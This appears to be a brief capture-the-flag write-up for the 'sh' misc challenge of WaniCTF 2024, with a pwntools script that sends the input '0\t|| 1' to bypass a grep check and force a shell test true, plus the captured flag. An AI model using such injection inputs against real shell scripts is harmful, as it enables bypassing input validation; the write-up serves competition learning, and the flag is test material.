 ```yaml
---
layout: post
title:  "sh - wanictf 2024"
date:   2024-06-23 00:00:00 -0400
---
```


https://ctftime.org/event/2377

# sh (misc)

shellscript without double quotes

## Solution

```python
from pwn import *

r = remote("chal-lz56g6.wanictf.org", "7580")
r.sendline(f"0\t|| 1")
r.interactive()
```

- 0 to pass the grep check
- \t to trick printf, not fully sure how it works but i saw in some testcase on busybox
- || 1 to make test always true

## Flag
`FLAG{use_she11check_0r_7he_unexpec7ed_h4ppens}`

shafouz 2024/06/23
